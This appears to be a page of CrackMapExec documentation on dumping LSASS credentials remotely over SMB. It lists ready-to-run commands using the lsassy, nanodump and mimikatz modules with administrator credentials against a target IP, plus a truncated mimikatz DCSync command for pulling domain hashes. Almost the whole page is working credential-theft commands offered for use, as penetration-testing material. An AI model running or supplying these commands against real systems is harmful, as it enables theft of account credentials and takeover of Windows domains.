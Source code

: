 # Dump LSASS



Using the module Lsassy from [@pixis ](https://twitter.com/HackAndDo)you can dump remotely the credentials&#x20;

```
#~ cme smb 192.168.255.131 -u administrator -p pass -M lsassy
```

<figure><img src="../../../.gitbook/assets/image (59).png" alt=""><figcaption></figcaption></figure>

### Using nanodump

Using the module nanodump you can dump remotely the credentials&#x20;

```
#~ cme smb 192.168.255.131 -u administrator -p pass -M nanodump
```

### Using Mimikatz (deprecated)

{% hint style="warning" %}
You need at least local admin privilege on the remote target, use option **--local-auth** if your user is a local account
{% endhint %}

Using the module Mimikatz, the powershell script Invoke-mimikatz.ps1 will be executed on the remote target

```
#~ cme smb 192.168.255.131 -u administrator -p pass -M mimikatz
```

```
#~ cme smb 192.168.255.131 -u Administrator -p pass -M mimikatz -o COMMAND='"lsadump::dcsync /domain:doma
```
